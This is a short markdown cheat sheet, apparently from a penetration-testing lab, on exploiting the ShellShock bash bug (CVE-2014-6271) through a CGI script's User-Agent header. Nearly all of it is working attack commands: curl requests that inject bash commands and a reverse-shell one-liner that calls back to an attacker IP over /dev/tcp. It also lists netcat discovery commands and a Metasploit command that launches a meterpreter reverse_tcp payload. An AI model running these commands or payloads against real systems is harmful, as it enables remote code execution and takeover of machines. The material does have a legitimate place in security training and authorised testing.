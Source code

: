 # ShellShock

PoC: `'() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`
After: `'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id'`

1. Exploit manually

    ```bash
    curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://10.11.1.71/cgi-bin/admin.cgi
    curl -H "User-Agent: () { :; }; set" http://10.11.1.71/cgi-bin/admin.cgi
    curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; uname -a; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi
    curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  ${cmd}; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s \
    | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
    cmd="hostname -f"
    !curl
    ```

2. Commands to try

    ```bash
    whereis nc
    nc -h
    nc -h 2>&1
    dpkg -l | grep netcat
    find / -name 'nc.*' -type f
    ```

    Get VPN IP
    ```bash
    ip addr show dev tap0
    ```

    Get a **reverse shell**
    ```bash
    curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa;  bash -i >& /dev/tcp/10.11.0.4/443 0>&1; echo zzzz;'" http://10.11.1.71/cgi-bin/admin.cgi -s | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
    ```

3. Using Metasploit

    ```bash
    msfconsole -q -x "use exploit/multi/http/apache_mod_cgi_bash_env_exec; set RHOST 10.11.1.71; set TARGETURI /cgi-bin/admin.cgi; set PAYLOAD linux/x86/meterpreter/reverse_tcp; set LHOST 10.11.0.4; set LPORT 443; run;"
    ```

## References

* https://forums.offensive-security.com/showthread.php?27949-Offensive-Security-s-Complete-Guide-to-Alpha/page2
* https://www.exploit-db.com/exploits/34900
